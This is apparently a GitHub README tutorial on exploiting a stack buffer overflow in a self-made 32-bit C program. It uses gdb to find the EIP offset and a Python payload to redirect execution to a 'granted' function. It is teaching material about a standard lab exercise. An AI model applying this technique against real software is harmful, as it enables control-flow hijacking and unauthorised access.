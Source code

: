 # buffer_overflow_simulation
*An article and instruction to perform simple stack overflow vulnerability exploit (For Educational Purposes Only).*

I am going to demonstrate simple buffer overflow attack by using free source like google cloud console.
# STAGE 1 : Preparation
- Open https://console.cloud.google.com/
 ![Google Cloud Console](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20162739.png)
- Sign In using google account.
- Activate cloud shell and use root access :
  ```
  sudo su
  ```
  ![Cloud Shell](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20215016.png)
- Install build-essential, gcc-multilib, and gdb.
  ```
  apt install build-essential gcc-multilib gdb -y
  ```
- Create a simple program using C language with name app.c.  *file attached in this repository, copy + paste it*.
  ```
  nano app.c
  ```
- Compile C program using 32 bit to simplify our simulation by using this command.
  ```
  gcc -g -m32 -no-pie -o app app.c
  ```
- Make a input file name attack.txt.  *file attached in this repository, copy + paste it*.
  ```
  nano attack.txt
  ```
- Test the program by using attack.txt.
  ```
  ./app < attack.txt
  ```
  ![App Testing](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20172856.png?raw=true)
# STAGE 2 : Debugging
- Debug application using gdb.
  ```
  gdb -q app
  ```
- Use command list 1,20 to list source code from line 1 to 20.
  ```
   list 1,20
  ```
- Pause the process at line 9 to analyze memory after string is being input with command.
  ```
  break 9
  ```
- run application, it will reach break point 1 (line 9).
  ```
  run < attack.txt
  ```
  ![Break point](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20173427.png?raw=true)
- Get detail information about stack memory.
  ```
  info reg
  ```
  ![Info Reg](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20175330.png?raw=true)
- The most important information here is ESP and EIP register.
- The register ‘ESP’ is used to point to the next item on the stack and is referred to as the ‘stack pointer’.
- EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.
- Open table of stack memory, Our mission is to find where EIP located in this memory table.
  ```
  x/12x $esp
  ```
  ![Stack Memory](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20175556.png?raw=true)
- By knowing the location of EIP, we can determine where to put our payload to take control next execution command.
- Now we test by changing the input from AAAA to AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
- Close gdb
  ```
  quit
  ```
- Use this command to change the input.
  ```
  bash -c "echo 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ' > attack.txt"
  ```
- Debug application to inspect the memory.
  ```
  gdb -q app
  ```
- Set break point to 9.
  ```
  break 9
  ```
- Run application and set input from attack.txt.
  ```
  run < attack.txt
  ```
- When it reaches break point. Dissassable the function to find memory address of granted function.
  ```
  disas main
  ```
- Then open stack memory.
  ```
  x/12x $esp
  ```
- Continue the process.
  ```
  continue
  ```
  ![EIP](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20212616.png)
# STAGE 3 : Finding
- The result shows segmentation fault error it return the value of 0x47474646 which is the next execution command. It failed to execute because it doesn't link to any process.
- We already know that EIP store value of the next execution command. Which mean 0x47474646 is the value of EIP.
- From the memory table we can find the position of EIP is on 4rd column and second row.
- Because we use alphabet character we can easily conclude that 46 and 47 are F and G respectively.
- Therefore the payload should be placed on FFGG
# STAGE 4 : Creating Payload
- We create the payload using python  and  put memory address of granted function in EIP variable. *file attached in this repository, copy + paste it*.
  ```
  nano payload
  ```
- Memory address of granted function is stored in little-endian fashion, the least significant bytes can stay where they are and new digits are added to the right at a higher address.
- Put the payload into file attack.txt
  ```
  python3 payload > attack.txt
   ```
  ![Payload](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20172704.png?raw=true)
- Attack the application using attack.txt.
   ```
  ./app < attack.txt
   ```
- Now we are successfully gain the access by using Buffer Overflow Vulnerability.
  ![Granted](https://github.com/JFeo390w9tgf/buffer_overflow_simulation/blob/main/img/Screenshot%202024-03-13%20172739.png?raw=true)
